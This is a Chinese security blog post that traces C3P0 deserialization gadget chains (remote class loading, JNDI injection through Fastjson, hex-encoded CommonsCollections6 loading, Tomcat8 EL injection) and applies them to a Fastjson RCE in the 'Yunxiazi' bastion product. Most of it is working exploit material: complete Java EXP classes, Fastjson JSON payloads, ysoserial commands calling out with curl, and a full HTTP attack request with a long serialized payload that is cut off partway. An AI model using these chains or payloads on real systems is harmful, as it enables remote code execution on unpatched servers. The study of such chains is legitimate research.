# 分析某匣子 Nday 学 C3P0 链 - 先知社区

分析某匣子 Nday 学 C3P0 链

- - -

## C3P0 是啥？

C3P0 是一个开源的 JDBC 连接池，它实现了数据源和 JNDI 绑定，支持 JDBC3 规范和 JDBC2 的标准扩展，并且 C3P0 其实就是 JDBC 的一部分吧，先来解释一下 啥叫连接池

```plain
连接池类似于线程池，在一些情况下我们会频繁地操作数据库，此时 Java 在连接数据库时会频繁地创建或销毁句柄，增大资源的消耗。为了避免这样一种情况，我们可以提前创建好一些连接句柄，需要使用时直接使用句柄，不需要时可将其放回连接池中，准备下一次的使用。类似这样一种能够复用句柄的技术就是池技术
```

## 环境

jdk8u65

```plain
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.2</version>
</dependency>
```

## Gadget

C3P0 常见的利用方式有如下三种

-   URLClassLoader 远程类加载
-   JNDI 注入
-   利用 HEX 序列化字节加载器进行反序列化攻击

## 分析

### C3P0 之 URLClassLoader 的链子

先来回顾下`URLClassLoader`​的类加载

如果说我们可以控制 URLclassLoader 或者他的参数就可以自定义字节码加载并且支持多种协议 `file`​ `jar`​ `http`​

```plain
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///E:\\Java_project\\Serialization_Learing\\target\\classes")});
        Class<?> cl = urlClassLoader.loadClass("Test");
        cl.newInstance();
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150129-dde1d0cc-d474-1.png)

作者在`\mchange-commons-java-0.2.11.jar!\com\mchange\v2\naming\ReferenceableUtils.java#referenceToObject()`​中找到类似的`URLClassLoader`​的执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150148-e9251304-d474-1.png)

相当于一个完整的类加载了，那么接下来去找找谁去调用了`ReferenceableUtils.referenceToObject()`​

于是找到了`ReferenceIndirector`​ 类的 `getObject()`​ 方法调用了`referenceToObject()`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150206-f3c66894-d474-1.png)

再往上跟谁调用了`getObject`​方法，就直接找到了`PoolBackedDataSourceBase#readObject()`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150218-fab938ac-d474-1.png)

其实蛮简单的，也不是很绕，也就三步，利用链如下

```plain
PoolBackedDataSourceBase#readObject ->
ReferenceSerialized#getObject ->
ReferenceableUtils#referenceToObject ->
ObjectFactory#getObjectInstance
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150230-0213470a-d475-1.png)

接下来就是写 EXP 了，先尝试把后半段链子写出来

写的时候要注意的点

1.  要用反射去调用`referenceToObject`​方法
2.  `referenceToObject`​方法需要三个传参 `Reference var0, Name var1, Context var2, Hashtable var3`​

```plain
package org.example;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.Reference;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Hashtable;

public class Test {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        Class c = Class.forName("com.mchange.v2.naming.ReferenceableUtils");
        Method m = c.getDeclaredMethod("referenceToObject", Reference.class, Name.class, Context.class, Hashtable.class);
        Reference reference = new Reference("evilexp","evilexp","http://127.0.0.1:8888/"); //evilexp 就是恶意类
        Object o =  m.invoke(c,reference,null,null,null);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150252-0f1a8e2c-d475-1.png)

那么后半条链子已经完成了，我们再来看看如何跟前半条链子进行拼接呢？

我们来仔细看看`PoolBackedDataSourceBase#readObject`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150304-160efd3a-d475-1.png)

如果反序列化得到的类是`IndirectlySerialized`​的实例，则会调用其`getObject()`​方法，然后将返回的类转为`ConnectionPoolDataSource`​类，所以我们来跟进下这个`ConnectionPoolDataSource`​类发现他竟然没有继承`Serializable`​接口

> 这里要有个点注意的，可能 Java 基础不太好的话可能不太清楚为啥这个`ConnectionPoolDataSource`​一定要继承`Serializable`​接口，因为在 Java 反序列化当中，序列化与反序列化的对象都得集成`Serializable`​接口从而给 JVM 标识，而这里`(ConnectionPoolDataSource) o`​将反序列化出来的对象进行强制转换了，那么也就是存在一定的关系 (具体就是向上转型，向下转型，接口转型)，所以能强制类型转换我们反序列化出来的东西的那必然是需要集成`Serializable`​接口的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150314-1c23f1a8-d475-1.png)

所以这里也就是作者非常巧妙的地方吧，因为在`readObject`​中这么写了，肯定有他写的原因，所以就去看了 `\c3p0.9.5.2.jar!\com\mchange\v2\c3p0\impl\PoolBackedDataSourceBase.java#writeObject()`​这个序列化的入口

可以发现这里是 将当前对象的`connectionPoolDataSource`​属性进行序列化，如果不能序列化便会在`catch`​中对`connectionPoolDataSource`​属性用`indirector.indirectForm`​方法处理后再进行序列化操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150327-24404904-d475-1.png)

我们跟进下`indirectForm`​方法，将我们传入的内容强转成`Referenceable`​类 并且调用`getReference`​方法，并将返回的结果作为参数实例化一个`ReferenceSerialized`​对象，然后序列化该对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150339-2b39e698-d475-1.png)

也就是说我们最终序列化的是一个`ReferenceSerialized`​类的对象，我们来跟进下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150350-319ffb80-d475-1.png)

再来看看头部，发现其继承的恰好就是`IndirectlySerialized`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150400-37ae3d70-d475-1.png)

因此在`PoolBackedDataSourceBase#readObject`​中调用的其实是`ReferenceSerialized#getObject()`​方法

那其实就很清晰了，我们需要用到这个`PoolBackedDataSourceBase`​类的`writeObject`​方法来进行序列化的操作，并且再调用他本身的`readObject()`​方法来反序列化，所以我们 exp 就可以去手写一下了，此时我们只需要把我们想传入的类通过反射添加到`connectionPoolDataSource`​这个属性即可

而这个类就是一个不继承`Serializable`​接口的方法但是他要实现`ConnectionPoolDataSource`​接口和实现`Referenceable`​接口的类，然后通过`getReference`​来返回一个`Reference`​类来进行远程加载类即可

最终 EXP

```plain
package org.example;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class c3p {
    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase a = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Field f1 = clazz.getDeclaredField("connectionPoolDataSource"); //此类是 PoolBackedDataSourceBase 抽象类的实现
        f1.setAccessible(true);
        f1.set(a,new evil());

        ObjectOutputStream ser = new ObjectOutputStream(new FileOutputStream(new File("a.bin")));
        ser.writeObject(a);
        ser.close();
        ObjectInputStream unser = new ObjectInputStream(new FileInputStream("a.bin"));
        unser.readObject();
        unser.close();
    }

    public static class evil implements ConnectionPoolDataSource, Referenceable {
        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

        @Override
        public Reference getReference() throws NamingException {
            return new Reference("evilexp","evilexp","http://127.0.0.1:8888/");
        }
    }
}
```

恶意类

```plain
public class evilexp {
    public evilexp() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150414-4049dc00-d475-1.png)

### JNDI 链

这里其实如果细心的话还是可以看到在上面的 Gadget 中是存在一个很明显的字眼`lookup`​的，但实际上在反序列化时我们是无法调用到该方法的，因为属性`contextName`​为默认`null`​且不可控

这条链子依赖于 Fastjson 或 Jackson 反序列化漏洞

作者先是找到了 `\c3p0-0.9.5.2-sources.jar!\com\mchange\v2\c3p0\JndiRefForwardingDataSource.java#dereference()`​中存在了明显的`lookup`​函数可能存在 JNDI 注入语句

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150427-47d49320-d475-1.png)

那么这里判断`jndiName`​是否为`String`​类之后就把`jndiName`​进行传入`lookup`​方法中，我们去看看这个`jndiName`​是否可控并且寻找谁去调用了`dereference`​方法

跟进`getJndiName`​发现对 `jndiName`​ 进行了判断该值是不是 `Name`​ 的类型，如果是就返回 `((Name) jndiName).clone()`​，若不是就返回 `String`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150436-4d2d1234-d475-1.png)

那么可以发现`jndiName`​只要传入 String 类型即可控制了 (之后是有 setter 方法的)

往上跟进谁调用了`dereference`​方法找到同类下的`inner`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150446-52e3fd78-d475-1.png)

满足`cachedInner`​为空即可进入下方逻辑

在往上跟

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150454-57d9781c-d475-1.png)

找到了`setLoginTimeout`​方法只需要传入一个 int 类型即可触发，但是这里问题就来了，我的`setLoginTimeout`​其实已经可以通过`fastjson`​触发了，但是最终的 JNDI 的 payload `jndiName`​属性却并没有赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150503-5d2e3cc6-d475-1.png)

所以继续再往上跟能够找到`\c3p0-0.9.5.2-sources.jar!\com\mchange\v2\c3p0\WrapperConnectionPoolDataSource.java#setLoginTimeout()`​方法，但是这里的写法很奇怪，因为并不是我的`JndiRefForwardingDataSource`​类直接去调用，而是使用了`getNestedDataSource()`​方法 (但仍能够被查找用法查找到)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150520-670bbe6c-d475-1.png)

跟进下`getNestedDataSource`​ 发现返回`nestedDataSource`​属性

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150529-6c92ca60-d475-1.png)

通过调试可以发现他竟然这里返回的正是我们需要的`JndiRefForwardingDataSource`​类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150540-72f6025a-d475-1.png)

所以问题就解决了，那么接下来这个类中仍然没有去 set 我们的`jndiName`​的方法，所以继续跟进

在`\c3p0-0.9.5.2-sources.jar!\com\mchange\v2\c3p0\JndiRefConnectionPoolDataSource.java#setLoginTimeout()`​调用了并且该类中也存在了`setJndiName`​方法来给`jndiName`​赋值，那么整条链子就完成了

最后的 EXP

```plain
String payload = "{" +
                "\"@type\":\"com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource\"," +
                "\"JndiName\":\"rmi://127.0.0.1:1099/muogbv\", " +
                "\"LoginTimeout\":0" +
                "}";
        JSON.parse(payload);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150551-79b4f358-d475-1.png)

### C3P0 之 HEX 流加载任意类攻击

喵的不知道怎么起这个名字，看师傅们的博客说什么 hexbase 什么 16 进制加载，我整帅点的

链子的形成是因为这个类 `WrapperConnectionPoolDataSource`​ 的构造方法中对属性`userOverrides`​的赋值方式存在异样的写法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150601-7f9c90c8-d475-1.png)

跟进`C3P0ImplUtils#parseUserOverridesAsString()`​方法，将该对象的`userOverridesAsString`​属性作为参数传入后进行了截取字符串 +16 进制解码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150609-849548fe-d475-1.png)

值得注意的是，在解析过程中调用了 substring() 方法将字符串头部的`HASM_HEADER`​截去了，因此我们在构造时需要在十六进制字符串头部加上`HASM_HEADER`​，并且会截去字符串最后一位，所以需要在结尾加上一个`;`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150616-88ee87c6-d475-1.png)

接着将解码后的数据进行`SerializableUtils#fromByteArray()`​方法的处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150629-906106b4-d475-1.png)

跟进`deserializeFromByteArray`​发现最终调用`readObject`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150637-956f6588-d475-1.png)

那么其实就很简单了，先写一个本地的 demo

```plain
package org.example;
import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.beans.PropertyVetoException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import org.apache.commons.collections.Transformer;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.util.Map;
public class Test {


    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException, InstantiationException, NoSuchFieldException, PropertyVetoException {
        String hex = toHexAscii(tobyteArray(CC6()));


        WrapperConnectionPoolDataSource wrapperConnectionPoolDataSource = new WrapperConnectionPoolDataSource(false);
        wrapperConnectionPoolDataSource.setUserOverridesAsString("HexAsciiSerializedMap:"+hex+";");

    }

    //CC6的利用链
    public static Map CC6() throws NoSuchFieldException, IllegalAccessException {
        //使用InvokeTransformer包装一下
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap1=new HashMap<>();
        LazyMap lazyMap= (LazyMap) LazyMap.decorate(hashMap1,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"abc");
        HashMap<Object,Object> hashMap2=new HashMap<>();
        hashMap2.put(tiedMapEntry,"eee");
        lazyMap.remove("abc");


        //反射修改LazyMap类的factory属性
        Class clazz=LazyMap.class;
        Field factoryField= clazz.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

        return hashMap2;
    }


    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        //System.err.println(h + ": " + out);
        return out;
    }

    //将类序列化为字节数组
    public static byte[] tobyteArray(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150652-9dea2694-d475-1.png)

其实很容易就能联想到`Fastjson`​了，因为可以发现`WrapperConnectionPoolDataSource`​也是存在 setter 方法的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150700-a2f99264-d475-1.png)

那么就可以通过 Fastjson 来去引入`com.mchange.v2.c3p0.WrapperConnectionPoolDataSource`​的`setuserOverridesAsString`​方法并且传入反序列化的`hex`​值来进行任意类加载或者 RCE 了

EXP

```plain
package org.example;
import com.alibaba.fastjson.JSON;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.beans.PropertyVetoException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import org.apache.commons.collections.Transformer;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.StringWriter;
import java.util.Map;
public class Test {


    public static void main(String[] args) throws  IllegalAccessException, IOException,  NoSuchFieldException {
        String hex = toHexAscii(tobyteArray(CC6()));


        String payload = "{" +
                "\"1\":{" +
                "\"@type\":\"java.lang.Class\"," +
                "\"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"" +
                "}," +
                "\"2\":{" +
                "\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"," +
                "\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ hex + ";\"," +
                "}" +
                "}";
        JSON.parse(payload);

    }

    //CC6的利用链
    public static Map CC6() throws NoSuchFieldException, IllegalAccessException {
        //使用InvokeTransformer包装一下
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap1=new HashMap<>();
        LazyMap lazyMap= (LazyMap) LazyMap.decorate(hashMap1,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"abc");
        HashMap<Object,Object> hashMap2=new HashMap<>();
        hashMap2.put(tiedMapEntry,"eee");
        lazyMap.remove("abc");


        //反射修改LazyMap类的factory属性
        Class clazz=LazyMap.class;
        Field factoryField= clazz.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

        return hashMap2;
    }


    static void addHexAscii(byte b, StringWriter sw)
    {
        int ub = b & 0xff;
        int h1 = ub / 16;
        int h2 = ub % 16;
        sw.write(toHexDigit(h1));
        sw.write(toHexDigit(h2));
    }

    private static char toHexDigit(int h)
    {
        char out;
        if (h <= 9) out = (char) (h + 0x30);
        else out = (char) (h + 0x37);
        //System.err.println(h + ": " + out);
        return out;
    }

    //将类序列化为字节数组
    public static byte[] tobyteArray(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);
        return bao.toByteArray();
    }

    //字节数组转十六进制
    public static String toHexAscii(byte[] bytes)
    {
        int len = bytes.length;
        StringWriter sw = new StringWriter(len * 2);
        for (int i = 0; i < len; ++i)
            addHexAscii(bytes[i], sw);
        return sw.toString();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150723-b0e159ac-d475-1.png)

当然在低版本的 fastjson 中也是可以的

```plain
String payload = "{" +
                "\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"," +
                "\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ hex + ";\"," +
                "}";
```

但在跟着文章复现的时候确实就有一个疑惑了，在`Fastjson`​的学习过程当中，我们知道就是在`@type`​去寻找指定类的时候，是先进行了构造方法的触发，再进行 setter 方法的调用的，那么在这里是不是有个疑问就是，我先进行了构造方法的触发，那我的`setter`​方法就没有意义了啊？

其实答案在`WrapperConnectionPoolDataSourceBase#setUserOverridesAsString`​中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150738-b96754d2-d475-1.png)

如果都不为空就会把三个参数传入`vcs.fireVetoableChange`​方法中，跟进下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150746-be776174-d475-1.png)

实例化了一个`PropertyChangeEvent`​对象，然后跟进`fireVetoableChange(`​方法，最后在 375 行这个地方调用了`WrapperConnectionPoolDataSource#vetoableChange`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150758-c566835c-d475-1.png)

跟进下，发现跟之前一样会走到`parseUserOverridesAsString`​方法成功进行`hex`​解码并且成功反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150811-ccf9cc50-d475-1.png)

## C3P0 不出网利用

只能算是一个科普把，因为利用条件属实苛刻，需要存在 Tomcat8 相关依赖环境

前言是说 不论是 URLClassLoader 加载远程类，还是 JNDI 注入，都需要目标机器能够出网。而加载 Hex 字符串的方式虽然不用出网，但却有 Fastjson 等的相关依赖，但是 C3P0 是存在一种方式可以摆脱出网的限制的，原因就是他在`\mchange-commons-java-0.2.11.jar!\com\mchange\v2\naming\ReferenceableUtils.java#referenceToObject()`​中的`URLClassLoader`​的执行是有特殊的写法的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150821-d32a2d7c-d475-1.png)

他将我们实例化的恶意类强转成了`ObjectFactory`​类并且调用了`getObjectInstance`​方法，那么 在 JNDI 高版本利用中，我们可以加载本地的`Factory`​类进行攻击，而利用条件之一就是该工厂类至少存在一个`getObjectInstance()`​方法。比如通过加载 Tomcat8 中的`org.apache.naming.factory.BeanFactory`​进行 EL 表达式注入

先导入依赖

```plain
<dependency>  
    <groupId>org.apache.tomcat</groupId>  
    <artifactId>tomcat-catalina</artifactId>  
    <version>8.5.0</version>  
</dependency>  
<dependency>  
    <groupId>org.apache.tomcat.embed</groupId>  
    <artifactId>tomcat-embed-el</artifactId>  
    <version>8.5.15</version>  
</dependency>
```

EXP(直接参考了下枫师傅的博客主要是写的太好了)

由于`BeanFactory`​中需要`Reference`​为`ResourceRef`​类，因此在`getReference()`​中我们实例化`ResourceRef`​类，类的构造其实就是构造 EL 表达式了

```plain
package C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class C3P0_Tomcat8 {

    public static class Tomcat8_Loader implements ConnectionPoolDataSource, Referenceable {

        @Override
        public Reference getReference() throws NamingException {
            ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
            resourceRef.add(new StringRefAddr("forceString", "faster=eval"));
            resourceRef.add(new StringRefAddr("faster", "Runtime.getRuntime().exec(\"calc\")"));
            return resourceRef;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {

        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }

    //序列化
    public static void Pool_Serial(ConnectionPoolDataSource c) throws NoSuchFieldException, IllegalAccessException, IOException {
        //反射修改connectionPoolDataSource属性值
        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        Class cls = poolBackedDataSourceBase.getClass();
        Field field = cls.getDeclaredField("connectionPoolDataSource");
        field.setAccessible(true);
        field.set(poolBackedDataSourceBase,c);

        //序列化流写入文件
        FileOutputStream fos = new FileOutputStream(new File("exp.bin"));
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(poolBackedDataSourceBase);

    }

    //反序列化
    public static void Pool_Deserial() throws IOException, ClassNotFoundException {
        FileInputStream fis = new FileInputStream(new File("exp.bin"));
        ObjectInputStream objectInputStream = new ObjectInputStream(fis);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        Tomcat8_Loader tomcat8_loader = new Tomcat8_Loader();
        Pool_Serial(tomcat8_loader);
        Pool_Deserial();
    }
}
```

## 实战分析

### 云安宝 - 云匣子 config fastjson RCE

#### 分析

一套`springboot`​开发的项目，看了下`web.xml`​没什么东西，再看下`springboot`​的配置文件`spring-servlet.xml`​发现把过滤器都写在了这里

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150841-df0f42b2-d475-1.png)

发现匹配`/3.0/authService/**`​ 路径的都会走很多过滤器，在这个控制器里头找到了`parseObject`​方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150849-e3b605c6-d475-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150910-f0759f2e-d475-1.png)

那么入口点在这里接下来就是看依赖的事情了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226150946-060c5e72-d476-1.png)

用的是 fastjson1.2.38 直接打通用的 payload 即可，这里就是写一下用到了 C3P0 链

由于看到 CC 依赖不考虑 JDK 的问题直接打 CC6 因为 yso 并没有写回显的代码所以打的只能是控制台回显使用`curl`​来证明

```plain
java -jar y4-yso.jar CommonsCollections6 "curl http://xxx:7979" > 1.bin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226151002-0fa54b10-d476-1.png)

但是发现用公众号发布的 payload 是可以打出回显的，自己测试了下 y4 的这个发现并没有成功

```plain
java -jar y4-yso.jar CommonsCollections6 "whoami" > 1.bin
```

但是确定是没有回显并不是没有执行命令，但因为 jdk 的限制 无法去字节码加载，也就是只剩下两个思路了，要么就是通过`InvokerTransformer`​去反射调用这种形式

```plain
ScriptEngineManager().getEngineByName("js").eval(恶意代码)
```

刚好有公众号发出来的 payload

```plain
POST /3.0/authService/config HTTP/2
Host: xxxx
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Referer: http://xxxx
Cmd: ls -al /tmp/
Accept: */*
Accept-Encoding: gzip, deflate,br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Content-Length: 18907

{"a":{"@type":"java.lang.Class","val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"},"b":{"@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource","userOverridesAsString":"HexAsciiSerializedMap:aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000047372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200206a617661782e7363726970742e536372697074456e67696e654d616e61676572000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000074000b6e6577496e7374616e6365757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007371007e00137571007e0018000000017400026a7374000f676574456e67696e6542794e616d657571007e001b00000001767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707371007e00137571007e00180000000174202b747279207b0a20206c6f616428226e6173686f726e3a6d6f7a696c6c615f636f6d7061742e6a7322293b0a7d20636174636820286529207b7d0a66756e6374696f6e20676574556e7361666528297b0a202076617220746865556e736166654d6574686f64203d206a6176612e6c616e672e436c6173732e666f724e616d65282273756e2e6d6973632e556e7361666522292e6765744465636c617265644669656c642827746865556e7361666527293b0a2020746865556e736166654d6574686f642e73657441636365737369626c652874727565293b200a202072657475726e20746865556e736166654d6574686f642e676574286e756c6c293b0a7d0a66756e6374696f6e2072656d6f7665436c617373436163686528636c617a7a297b0a202076617220756e73616665203d20676574556e7361666528293b0a202076617220636c617a7a416e6f6e796d6f7573436c617373203d20756e736166652e646566696e65416e6f6e796d6f7573436c61737328636c617a7a2c6a6176612e6c616e672e436c6173732e666f724e616d6528226a6176612e6c616e672e436c61737322292e6765745265736f75726365417353747265616d2822436c6173732e636c61737322292e72656164416c6c427974657328292c6e756c6c293b0a2020766172207265666c656374696f6e446174614669656c64203d20636c617a7a416e6f6e796d6f7573436c6173732e6765744465636c617265644669656c6428227265666c656374696f6e4461746122293b0a2020756e736166652e7075744f626a65637428636c617a7a2c756e736166652e6f626a6563744669656c644f6666736574287265666c656374696f6e446174614669656c